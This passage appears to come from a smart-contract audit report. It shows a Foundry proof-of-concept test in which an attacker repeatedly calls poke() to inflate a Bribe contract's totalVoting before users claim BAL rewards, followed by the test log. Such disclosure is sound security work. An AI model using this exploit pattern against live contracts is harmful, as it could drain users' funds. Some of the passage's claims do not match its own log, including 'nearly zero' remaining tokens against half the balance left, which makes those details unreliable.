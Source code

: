 Step 3.1: Attacker call poke() repeatedly to inflate the totalVoting 
```solidity
        console2.log("totalVoting after vote(): %", IBribe(bribeAddress).totalVoting());
        console2.log("Call voter poke()"); 
                hevm.startPrank(attacker);
        voter.poke(tokenId1);
        console2.log("totalVoting after poke(): %", IBribe(bribeAddress).totalVoting()); 
        voter.poke(tokenId1);
        console2.log("totalVoting after poke(): %", IBribe(bribeAddress).totalVoting()); 
        voter.poke(tokenId1);
        console2.log("totalVoting after poke(): %", IBribe(bribeAddress).totalVoting()); 
        hevm.stopPrank();
```

Step 4: Fast forward 1 EPOCH and each user will be able to claim 1/3 of 100_000e18 BAL token as reward. If all users claim then the left token in the contract will be nearly zero. 

```solidity
        hevm.warp(newEpoch()); 
        
        uint256 earnedBribes1 = IBribe(bribeAddress).earned(bal, tokenId1); 
        console2.log("earnedBribes1", earnedBribes1); 
        
         earnedBribes2 = IBribe(bribeAddress).earned(bal, tokenId2); 
        console2.log("earnedBribes2", earnedBribes2); 

         earnedBribes3 = IBribe(bribeAddress).earned(bal, tokenId3); 
        console2.log("earnedBribes3", earnedBribes3); 

        hevm.prank(attacker);
        voter.claimBribes(bribes, tokens, tokenId1);
        console2.log("Bal balance of attacker: %s", IERC20(bal).balanceOf(attacker)); 

        hevm.prank(Alice);
        voter.claimBribes(bribes, tokens, tokenId2);
        console2.log("Bal balance of Alice: %s", IERC20(bal).balanceOf(Alice)); 
        
        hevm.prank(Bob);
        voter.claimBribes(bribes, tokens, tokenId3); 
        console2.log("Bal balance of Bob: %s", IERC20(bal).balanceOf(Bob)); 
```

The full log of this test case: 
```
[PASS] testBribeClaimingPoke_Hacked() (gas: 4855977)
Logs:
  Bal balance of Bribe contract: 100000000000000000000000
  Call voter poke()
  totalVoting after poke(): % 3998814434263944902
  totalVoting after poke(): % 5998221651395917353
  totalVoting after poke(): % 7997628868527889804
  earnedBribes0 0
  earnedBribes2 0
  earnedBribes3 0
  Fast forward 1 epoch
  earnedBribes1 16666666666666666666666
  Bal balance of attacker: 16666666666666666666666
  earnedBribes2 16666666666666666666666
  earnedBribes3 16666666666666666666666
  Bal balance of Alice: 16666666666666666666666
  Bal balance of Bob: 16666666666666666666666
  Bal balance of Bribe contract: 50000000000000000000002
```
